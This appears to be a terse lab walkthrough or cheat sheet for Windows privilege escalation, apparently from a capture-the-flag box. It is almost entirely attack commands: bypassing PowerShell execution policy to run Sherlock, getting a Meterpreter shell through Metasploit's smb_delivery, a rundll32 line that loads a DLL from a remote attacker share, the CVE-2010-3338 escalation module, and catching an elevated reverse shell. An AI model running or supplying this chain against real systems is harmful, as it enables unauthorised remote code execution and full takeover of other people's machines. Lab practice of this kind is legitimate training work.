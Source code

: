 **Querying Current Patch Level
```
wmic qfe
```

**Running Sherlock
```
Set-ExecutionPolicy bypass -Scope process
Import-Module .\Sherlock.ps1
Find-AllVulns
```

**Obtaining a Meterpreter Shell
```
search smb_delivery
use 0
show options
show targets
set target 0
exploit
```

**Rundll Command on Target Host
```
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

**Searching for Local Privilege Escalation Exploit
```
search 2010-3338
use 0
```

**Migrating to a 64-bit Process
```
sessions -i 1
getpid
ps
migrate 2796
background
```

**Setting Privilege Escalation Module Options
```
set SESSION 1
set lhost 10.10.14.3
set lport 4443
show options
```

**Receiving Elevated Reverse Shell
```
exploit
getuid
sysinfo
```
